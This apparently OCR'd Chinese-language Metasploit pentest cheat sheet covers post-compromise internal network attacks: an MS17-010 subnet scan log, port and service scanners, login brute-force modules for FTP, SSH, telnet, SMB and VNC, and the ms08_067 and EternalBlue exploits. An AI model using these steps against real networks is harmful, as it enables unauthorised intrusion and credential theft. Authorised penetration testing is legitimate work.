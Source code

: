 ```
MS17-010

	meterpreter > background 
	[*] Backgrounding session 1...
	msf exploit(multi/handler) > use auxiliary/scanner/smb/smb_ms17_010 
	msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
	rhosts => 172.17.0.0/24
	msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
	threads => 50
	msf auxiliary(scanner/smb/smb_ms17_010) > run

先利用exploit/windows/smb/ms17_010_psexec，win10旧版依旧可以，新版设置smbuser，smbpass即可


### Msf扫描
---
经过上面设置路由即可使用以下scan：

	use auxiliary/scanner/portscan/syn
	use auxiliary/scanner/portscan/tcp

```	
常用port 21,80,443,873,2601,2604,3128,4440,6082,6379,8000,8008,8080,8081,8090,8099,8088,8888,9000,9090,9200,11211,27017,28017,50070,1900,4440,5082,7001,6082,50000,2222,2082,2083,3312,3311,7778,8083,10000,8089,8649,27017,27018,5900,5631,4899
```	
服务扫描:  

	SMB版本识别：auxiliary/scanner/smb/smb_version 
	MSSQL信息收集：search mssql相关模块，如auxiliary/scanner/mssql/mssql_ping 查询mssql监听的端口，默认1433
	SSH版本信息：auxiliary/scanner/ssh/ssh_version
	FTP版本识别：auxiliary/scanner/ftp/ftp_version
	HTTP服务：auxiliary/scanner/http/http_header 返回相关header信息
	
port：21 （FTP）

	auxiliary/scanner/ftp/ftp_login     //FTP登陆爆破
其它：search FTP。FTP常见利用方式，除了直接获取文件，还要注意目录跨越漏洞，成功利用，可以直接反弹shell

port:22 (SSH)

	auxiliary/scanner/ssh/ssh_login    
其它：search SSH

port:23 (telnet)

	auxiliary/scanner/telnet/telnet_login    //主要目标是内网中的路由器，交换机等网络设备

port:445

	exploit/windows/smb/ms08_067_netapi         //上古漏洞，依然有惊喜
	exploit/windows/smb/ms17_010_eternalblue    //永恒之蓝
	auxiliary/scanner/smb/smb_login             //SMB登陆爆破
其它：search smb | Samba。linux下的CVE-2017-7494， 445 端口的远程利用

port:3389 (远程桌面RDP)

	auxiliary/scanner/rdp/ms12_020_check 

5900 (VNC)

    auxiliary/scanner/vnc/vnc_none_auth
    auxiliary/scanner/vnc/vnc_login
```